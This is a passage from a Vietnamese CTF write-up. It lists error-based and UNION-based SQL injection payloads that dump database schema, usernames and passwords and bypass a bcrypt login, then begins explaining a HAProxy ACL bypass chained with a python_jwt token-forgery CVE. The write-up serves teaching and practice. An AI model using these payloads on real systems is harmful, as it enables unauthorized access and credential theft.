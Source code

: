 Sử dụng thêm substring vì có thể kết quả trả về nó bị giới hạn kí tự
`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+substring(group_concat(schema_name),1,32)+FROM+INFORMATION_SCHEMA.SCHEMA),'~'))+--+-&password=test`

Sau đó lấy các bảng trong schema này. Do bài này có đến 3 schema trong database nên phải trỏ đến đúng schema
`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+group_concat(table_name)+FROM+INFORMATION_SCHEMA.tables+WHERE+table_schema='korp_terminal')))+--+-&password=test`

Lấy cột
`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+group_concat(column_name)+FROM+INFORMATION_SCHEMA.columns+WHERE+table_schema='korp_terminal'+AND+table_name='users')))+--+-&password=test`

Lấy password
`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+group_concat(username)+FROM+users)))+--+-&password=test`

`username=admin'+AND+EXTRACTVLUE(1337,CONCAT('.','~',(SELECT+group_concat(password)+FROM+users)))+--+-&password=test`

Unintended Solution
`username=abcdxyz'+UNION+SELECT+'$2a$11$0Uq00jmBw5DDgBpInb6Dqem9o5lrZGMDLHBpb5ujtyTYRMVTJuRBK'+--+-&password=test`

Chuỗi kia là mã hóa dạng Bcrypt rounds 12 của từ 'password'
Câu lệnh query database có thể như sau
`SELECT password FROM users WHERE username='username'`
Rồi sau đó password được lấy ra từ database sẽ được so sánh với password người dùng nhập vào. Cho nên là thử SQLi ở input password sẽ không có chuyện gì xảy ra. 

# Local Talk
Challenge này chứa 2 lỗ hổng đó là [CVE-2023-45539](https://nvd.nist.gov/vuln/detail/CVE-2023-45539) và [CVE-2022-39227](https://nvd.nist.gov/vuln/detail/CVE-2022-39227). Bằng cách bypass `HAproxy ACL` dẫn đến việc truy cập được endpoint cung cấp cho ta đoạn `jwt` sử dụng `python_jwt` module version 3.3.3, từ đó ta có thể thay đổi role của user thành admin và lấy được flag.

> HAproxy là viết tắt của High Availability Proxy, là 1 phần mềm mã nguồn mở được sử dụng rộng rãi để cân bằng tải và phân phối proxy cho các ứng dụng web và TCP.
> 
> ACL trong HAproxy là viết tắt của Access Control List, là danh sách các quy tắc được sử dụng để kiểm soát truy cập vào các tài nguyên. Trong HAproxy, ACL có thể được sử dụng để cho phép hoặc từ chối các truy cập dựa trên địa chỉ IP, hạn chế truy cập vào các URL hoặc đường dẫn cụ thể, chuyển hướng lưu lượng truy cập đến các máy chủ khác nhau và xác thực người dùng. 

Challenge sẽ có UI như sau
![H1s1leGAa](https://hackmd.io/_uploads/ryxJC4Fk0.png)

Chúng ta có 3 API bao gồm `/api/v1/get_ticket`, `/api/v1/chat/{chatId}` và `/api/v1/flag`

1. `/api/v1/get_ticket`
```python=
@api_blueprint.route('/get_ticket', methods=['GET'])
 def get_ticket():

     claims = {
         "role": "guest", 
         "user": "guest_user"
     }

     token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
     return jsonify({'ticket: ': token})
```
